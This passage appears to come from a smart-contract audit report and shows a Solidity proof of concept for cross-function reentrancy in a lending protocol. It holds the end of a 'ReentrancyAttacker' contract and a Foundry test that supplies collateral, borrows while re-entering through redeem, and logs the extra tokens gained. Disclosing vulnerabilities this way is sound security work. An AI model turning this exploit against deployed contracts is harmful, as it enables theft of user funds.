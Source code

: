 ``` solidity
            }
        }
    }

    // Helper function to approve tokens
    function approveToken(address _token, uint256 _amount) external {
        IERC20(_token).approve(address(coreRouter), _amount);
    }

    // Function to check state inconsistencies
    function checkStateInconsistency() external view returns (bool) {
        uint256 storedInvestment = lendStorage.totalInvestment(address(this), lToken);
        uint256 actualBalance = IERC20(token).balanceOf(address(this));
        return storedInvestment > 0 && actualBalance > 0;
    }
}

```

2.  create test in existing testRedeeming.t.sol
``` solidity

 function test_cross_function_reentrancy_borrow_to_redeem() public {
        vm.startPrank(deployer);
        
        // Setup initial liquidity
        uint256 supplyAmount = 1000e18;
        (address token, address lToken) = _supply(supplyAmount);
        
        ReentrancyAttacker attacker = new ReentrancyAttacker(payable(address(coreRouter)), address(lendStorage));
        attacker.setAttackType(true, true, false); // Test borrow-redeem reentrancy
        
        // Give attacker some collateral
        uint256 collateralAmount = 100e18;
        ERC20Mock(token).mint(address(attacker), collateralAmount);
        vm.stopPrank();
        
        vm.startPrank(address(attacker));
        attacker.approveToken(token, collateralAmount);
        coreRouter.supply(collateralAmount, token); // Supply collateral first
        
        uint256 initialBorrowBalance = IERC20(token).balanceOf(address(attacker));
        console.log("Initial borrow balance:", initialBorrowBalance);
        
        // Try to borrow and reenter with redeem
        uint256 borrowAmount = 50e18; // 50% of collateral
        attacker.borrowAttack(lToken, borrowAmount, token);
        
        uint256 finalBalance = IERC20(token).balanceOf(address(attacker));
        console.log("Final balance after borrow-redeem attack:", finalBalance);
        console.log("Extra tokens obtained:", finalBalance - initialBorrowBalance);
        
        // Check collateral manipulation
        (uint256 borrowed, uint256 collateral) = 
            lendStorage.getHypotheticalAccountLiquidityCollateral(address(attacker), LToken(lToken), 0, 0);
        
        console.log("Final borrowed amount:", borrowed);
        console.log("Final collateral:", collateral);
        
        vm.stopPrank();
    }
}
```